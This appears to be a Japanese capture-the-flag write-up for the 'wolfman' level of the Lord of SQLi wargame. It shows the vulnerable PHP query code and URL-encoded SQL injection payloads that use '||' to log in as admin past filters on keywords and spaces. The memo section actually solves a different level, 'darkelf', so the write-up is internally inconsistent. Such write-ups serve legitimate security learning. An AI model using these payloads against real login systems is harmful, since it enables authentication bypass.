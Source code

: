 # wolfman

## answer

```
https://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27%7C%7Cid%3D%27admin%27%23
```

## problem

```
query : select id from prob_wolfman where id='guest' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

## memo

寝起きで早朝に取り組んでいる。

さて、試しに、

```
https://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=1
```

とすると

```
query : select id from prob_darkelf where id='guest' and pw='1'
```

となった。

コードを読んでいく。

```
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
```

とあるので、orとand、ORとANDは禁止されている。

昨日もこれを使った気がするが、orの代わりに||を使ってみる。

```
if($result['id'] == 'admin') solve("darkelf"); 
```

クリア条件はこれなので、

```
?pw=1'||id='admin
```

これでいけた。

```
https://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=1%27%7C%7Cid=%27admin
```

```
query : select id from prob_darkelf where id='guest' and pw='1'||id='admin'
```

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)